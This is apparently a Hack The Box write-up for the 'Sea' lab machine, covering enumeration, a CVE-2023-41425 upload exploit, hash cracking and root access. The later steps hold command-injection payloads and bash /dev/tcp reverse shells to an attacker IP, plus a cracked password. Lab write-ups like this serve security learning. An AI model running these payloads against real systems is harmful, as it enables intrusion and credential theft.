 # Sea

<details>
<summary><strong>Summary</strong></summary>
The first hackthebox machine I've done. This writeup isn't as good because of the 
Nmap scan the machine and find a website. Use gobuster/feroxbuster to find a large amount of pages left over on the website. Scan through the pages to find an upload page where there is a script uploading vulnerability.
Check the files in the apache directory and the rest of the program files for information, also checking the network interfaces. Find a hash for a user. Set up a reverse proxy and route traffic through the first machine with a shell to a remote website on the network. 
Login to the remote machine on the browser using the proxy. Catch the request from the remote machine to the system logs using Burp. Send it to the repeater and use it to get a reverse shell on the machine as root.

<summary><strong>What I Learned</strong></summary>
<body>

1. This is my first HTB box, so I learned a lot about general enumeration and process as a whole while working on it
2. Learned about Feroxbuster and which directories are bust-able

</body>
</details>

#### Not quite a Bordereau

I had the commands and information saved before I started thinking about posting these on github. In the future there is more detail, but when I did this, it was more of a brain dump and less of a conscious effort to provide a detailed writeup.

## Steps

Scan the machine for open ports
`nmap --open -p- -oA nmap/open <IP>`

Use gobuster to find files on the webserver  
`gobuster dir -u http://10.129.194.230:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Find a registration page on the machine

Find the apache server on `http://10.129.194.230:50000/etc/apache2

Get a reverse shell file onto the target machine using [CVE-2023-41425](https://nvd.nist.gov/vuln/detail/CVE-2023-41425)

### Start a netcat listener and upload the corrupted CVE file using the exploit file

Find where directory for the site configuration is in sites-enabled  
 • `DocumentRoot category in Directory`  
 • `/etc/passwd`

Found BCRYPT hash in : `/var/www/sea/data`. Decrypt it using hashcat.  
`$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q : mychemicalromance`

Grep for every line that contains users  
`cat /etc/passwd | grep sh$`

Find users, then switch to them (password required)  
`su - <Username>`

Check the filesystem table  
`Hidepid=2` -> cannot see processes run by other users  
 `cat /etc/fstab`

What processes are running?  
Ps -> what processes are running | e -> every process (even ones not run by user) | f -> full format listing | forest -> displays in tree-like hierarchy  
`ps -ef --forest`

What ports are listening?

- Ss -> socket statistics | l -> only listening sockets. | n -> numerical addresses | t -> TCP connections | p -> show process id
- `ss -lntp`
- To check the ports that are running
  - `cd /etc/`
  - `grep -R <PORT_NUM> . 2>/dev/null`

Get the service command and check it  
`cat ./systemd/system/multi-user.target.wants/monitoring.service`
![alt text](image.png)

Cannot access root/monitoring file, but can set up port forward and access it
![alt text](image-1.png)

Setup an ssh listener locally on port 8081. Forward it from 8081 to 127.0.0.1 locally and direct it to 8080 on the other end (target machine)  
 • `ssh -L 8081:127.0.0.1:8080 amay@<RHOST>`

Then you can access 127.0.0.1:8082 on browser with login

Click the analyze button to get the logs. Send them to the Burp Repeater

In the kali cli, curl the server to look for suspicious traffic  
 • `curl <IP>/random_text`

Check to see if you can inject php code into log file  
 • Set up a proxy and use it to try to run a command  
 ○ KALI -> `curl 10.129.62.179/contretemps -x http://localhost:8080`  
 • Intercept it with Burp, change to a more suspicious command agent

![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-5.png)

Try to get other files  
 • `/root/root.txt`  
 • `/etc/passwd`  
 • `/etc/shadow`

Try to run a command

- `/root/root.txt;id;%23 %23 is '#'`
- It works, so get a reverse shell
  - `/root/root.txt;bash -c 'bash -i >&/dev/tcp/<KALI_IP>/<PORT> 0>&1*;%23`
  - URL encode with Ctrl + U

Use nohup -> shells persist after the terminal closes  
 • `log_file=root/root.txt;bash+-c+'nohup+bash+-i+>%26/dev/tcp/10.10.14.9/9001+0>%261+%26';#&analyze_log=`  
Get root access

![alt text](image-4.png)
